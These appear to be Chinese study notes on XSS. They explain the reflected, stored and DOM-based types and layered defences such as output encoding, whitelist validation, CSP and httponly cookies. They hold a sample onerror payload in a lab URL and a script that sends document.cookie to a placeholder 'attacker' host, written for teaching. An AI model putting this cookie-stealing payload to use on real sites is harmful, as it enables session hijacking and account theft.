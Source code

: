 # 跨站脚本攻击，将<script>标签作为内容进行get（url）、post（上传）。https://blog.csdn.net/yifeng_peng/article/details/86264499  此文很好地概述了！注意XSS恶意代码一般在被攻击网站上。
反射型XSS：恶意url含有<script>等内容，服务器在页面中插入了恶意内容并作为响应发送给客户端，客户端在页面加载时执行恶意内容。在网站输入脚本能被浏览器执行，那么可以做成url且网站存在XSS漏洞。
存储型XSS：post将<script>内容存储到服务器，例如留言、bbs、图片都是可以存储的，此时再访问页面便会执行脚本。
DOM型XSS：DOM型XSS是基于DOM文档对象模型的一种漏洞。恶意url含有<script>等内容，但是服务器并不会在响应的页面中插入恶意内容，例如客户端可以从URL中获取数据，但是客户端仍然将恶意内容作为脚本执行。
防御：对用户输入做编码/转义处理，是第一道防线；安全输入检查(验证/过滤，白名单更为有效)，出站的输入处理应该是对抗XSS的基本方法，并且客户端也应该进行安全输入检查，是第二道防线；客户端的内容安全策略（CSP）是第三道防线，页面提供额外的HTTP头：Content-Security-Policy有效防御DOM型。httponly防止cookie被带出
https://www.jianshu.com/p/4fcb4b411a66
http://192.168.1.102/xss/example4.php?name=<img src='w.123' onerror='alert("hey!")'>
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
如果一个攻击者可以利用你的网站在其他人的浏览器上执行任意 JavaScript 代码，你的网站和用户的安全都是存在问题的。
JavaScript 代码访问了一些用户敏感信息，例如：document.cookie 
JavaScript 代码可以使用 XMLHttpRequest和其他机制来发送包含任何内容的 HTTP 请求到任意目的地。
JavaScript 代码可以通过使用 DOM 操作来对当前页面的 HTML 文件做任意修改。攻击者可以使用 DOM 操作在页面中插入假的登录表单，设置表单的 action 到自己的服务器，之后欺骗用户提交敏感信息。